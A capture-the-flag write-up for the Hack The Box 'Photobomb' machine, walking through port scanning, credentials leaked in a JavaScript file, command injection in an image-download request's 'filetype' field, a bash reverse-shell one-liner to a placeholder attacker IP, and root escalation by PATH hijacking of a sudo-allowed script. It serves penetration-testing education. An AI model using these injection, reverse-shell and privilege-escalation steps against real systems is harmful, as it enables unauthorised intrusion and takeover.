



Photobomb: Hack The Box Write-up
This is my detailed write-up for the Photobomb machine on Hack The Box. In this document, I will describe the steps and methods I used to gain access and eventually escalate privileges on the machine.
Introduction
Photobomb is a beginner-level Linux machine designed to provide a hands-on experience in cybersecurity. In this setup, users will have the opportunity to apply their skills in identifying and exploiting common vulnerabilities. The machine focuses on authentication and credential handling, as well as examining specific functionalities of web applications. Additionally, participants will explore privilege escalation techniques through system scripting configurations and usage. This machine offers a realistic and safe environment for those interested in learning more about cybersecurity and penetration testing.
Recon
We start by performing a scan of all open TCP ports on the machine with the following command: nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.11.182 -oG allPorts

We use our extractPorts script and this will copy the open ports onto our clipboard, then we proceed to make a second nmap scan with this new info by running the following command: nmap -sCV -p22,80 10.10.11.182 -oN targeted
To visualize the output in a more comfortable way, we can take advantage of bat (although we use cat as an alias for it) and we'll set up the flag -l to specify that we wanna highlight the output as it was Java code (even if it's not).
We can see that the TCP port 22 is open, port 22 is usually set for SSH and this is not the exception, and port 80 is also open, we can recognize this is a webpage, because of the http service and because the software serving the server is ngix, we can also see the word "Ubuntu" right next to it, so we can deduce we are facing a Linux machine

If we try to go to http://10.10.11.182 we'll notice that the address will change to http://photobomb.htb, but we won't be able to reach it anyway
And that's because of something called Virtual Hosting, we can easily fix this adding an entry with the ip and domain in our /etc/hosts file, remember to edit the file as sudo, otherwise you won't be able to write on it
Once we did that we can refresh our browser and we should see the website

The page isn't so large so we can investigate clicking here and there, and we'll find out that by clicking on "click here!" an authentication form will show up

We can try some default credentials like admin:admin, admin:password or root:root, but none of them seem to work, so we gotta keep investigating, if we press CTRL+U and we read the source code we can see it's almost plain html code, but it also invokes the css stylesheet and a js script called photobomb.js
We can click on the script to see what's inside and we can see there's a credentials leakage on this code:

It is a good practice to keep everything well organized so we'll storage these credentials, we never know how many times we can use them

Exploitation
We use the credentials found to get access from the authentication form
A quick look over the page let us know the function of the website, you can choose a picture, a format, a size and then you can download it, but, how does the http request work?

Using Burpsuite we can intercept the request and then we can send it to the repeater to manipulate it
It seems like the website is using a standard image to resize it according to what we want, this can be done on the server side and therefore we can check if any of the fields on the request is suceptible to changes, and 'filetype' is, we can check this by running a command right after the value of the field, like in this example, where we are trying to execute id after jpg
The http 500 internat server error response let us know that we can indeed inject code on this, so we can create a one liner for a revershell and we will also need to url-encode it so we can send it through the request on Burpsuite, the one liner for this example is /bin/bash -c 'sh -i >& /dev/tcp/AttackerIP/AttackerPort 0>&1'

Notice how we changed the ip and port to the ones we are gonna use to receive the revershell. Using netcat we can set up a listener in the same port as in our one liner, once it is ready, we can send the request on Burpsuite and we will receive the connection

We can do a tty treatment to improve the terminal functionalities, click here to check how to do it
Privilege escalation
We can start off checking if we can run something as sudo by running sudo -l
And we can see there is indeed one script named /opt/cleanup.sh that can be run as sudo with no password

On the previous image we can see the content of the script that we can run as sudo, the very last line of that script starts with 'find' (instead of /usr/bin/find), that's why we create a file named 'find' with 'sh' in its content, because if we get to manipulate the PATH we can make the system 'think' it should run our find instead of the one in /usr/bin/find
We can also check the user flag at this point

Although we usually cannot change the PATH variable without being a superuser, we can take advantage of the sudo privileges for /opt/cleanup.sh and run the script but considering a new path by running this: sudo PATH=$PWD:$PATH /opt/cleanup.sh
That will run the script and when it reaches the last line, instead of executing the original 'find' binary, it will run the one we wrote, because of the PATH hierarchy.
Running our 'find' file will actually run 'sh' as sudo, that means we now have a sh as root and we can find the root flag in /root as shown on the last pic.